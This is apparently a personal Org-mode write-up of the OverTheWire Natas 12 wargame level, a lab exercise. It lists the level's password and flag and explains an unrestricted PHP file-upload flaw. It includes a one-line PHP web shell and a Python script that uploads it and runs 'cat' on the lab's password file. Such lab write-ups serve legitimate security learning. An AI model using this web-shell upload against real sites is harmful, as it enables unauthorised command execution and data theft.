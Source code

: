 :PROPERTIES:
:ID:       fdd79b13-1484-46a9-a443-bd8432d7da31
:END:
#+title: Natas12
* Previous
[[id:fa870da3-03df-4ed4-8282-bf34abc24f11][Natas11]]

* Password
EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

* Flag
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

* Notes

From top page:
#+begin_src html
<form enctype="multipart/form-data" action="index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input type="hidden" name="filename" value="u374x5aq4m.jpg" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
</form>
#+end_src

From sourcecode page:
#+begin_src html
<?
 function genRandomString() {
   $length = 10;
   $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
   $string = "";

   for ($p = 0; $p < $length; $p++) {
     $string .= $characters[mt_rand(0, strlen($characters)-1)];
   }

   return $string;
 }


 function makeRandomPath($dir, $ext) {
   do {
     $path = $dir."/".genRandomString().".".$ext;
   } while(file_exists($path));

   return $path;
 }

 function makeRandomPathFromFilename($dir, $fn) {
   $ext = pathinfo($fn, PATHINFO_EXTENSION);
   return makeRandomPath($dir, $ext);
 }

 if(array_key_exists("filename", $_POST)) {
   $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

   if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
     echo "File is too big";
   } else {
     if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
       echo "The file
             <a href=\"$target_path\">
             $target_path
             has been uploaded";
     } else {
       echo "There was an error uploading the file, please try again!";
     }
   }
 } else {
      ?>;
      <form enctype="multipart action="index.php" form-data"="" method="POST">
       <input type="hidden" name="max_file_size" value="1000" >
       </input type="hidden" name="max_file_size" value="1000" >
       <input type="hidden" name="filename" value="<? print genrandomstring(); ?>.jpg" />
        Choose a JPEG to upload (max 1KB):
        <input name="uploadedfile" type="file" >
        </input name="uploadedfile" type="file" >
        <input type="submit" value="upload file" >
        </input type="submit" value="upload file" >
        <? } ?>
#+end_src

Top page allows us to upload files (asks for JPEG).
The uploaded file is assigned a random file name on the server.
The extension is kept as is, and the PHP `move_uploaded_file` function is not secure.
The assigned random file name is given to us after the upload.
This means we can upload arbitrary PHP files and run them.

#+begin_src php
<?php
    system($_GET['var']);
?>
#+end_src

This script simply get a value from URL passed arguments.
See [[https://www.w3schools.com/PHP/php_superglobals_get.asp][$_GET]] and [[https://www.php.net/manual/en/function.system.php][system()]]

- `filename` is taken from $_POST['filename']. This field must exist.
- The final extention of uploaded file is taken from `filename` field.
- File is moved from tmp to final dest using the random name gen. The final path is printed.
- We can then use the given path to execute command on the system : print the password located in /etc/...

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
import html
from bs4 import BeautifulSoup as bs
from natas_pass import passwords

session = requests.Session()
username = "natas12"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

# response = session.get(url, auth=(username, password))
# content = response.text
# print(content)

# response = session.get(url + "index-source.html", auth=(username, password))
# raw_content = response.text
# sourcecode = html.unescape(raw_content)
# soup = bs(sourcecode)
# print(soup.prettify())

response = requests.post(
    url,
    auth=(username, password),
    data={"filename":"xxx.php"},
    files={'uploadedfile' : open('revshell.php', 'rb')}
)
raw_content = response.text
sourcecode = html.unescape(raw_content)
soup = bs(sourcecode, features="html.parser")
# headers = response.headers
# print(headers)
# print(soup.prettify())

script_path = re.findall("(upload/[a-zA-Z0-9]{10}.php)", raw_content)[0]

if script_path :
    raw_content = requests.get(
    url+script_path+"?var=cat /etc/natas_webpass/natas13",
    auth=(username, password)
).text
else :
    print("Error. No path found.")

p = re.findall("([a-zA-Z0-9]{32})", raw_content)

if p and p[0] == password:
    p.pop(0)

if p :
    print(p[0])
#+end_src

#+RESULTS:
: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

* Next
[[id:d803954c-1f3e-4471-b741-0cb738ec73f8][Natas13]]
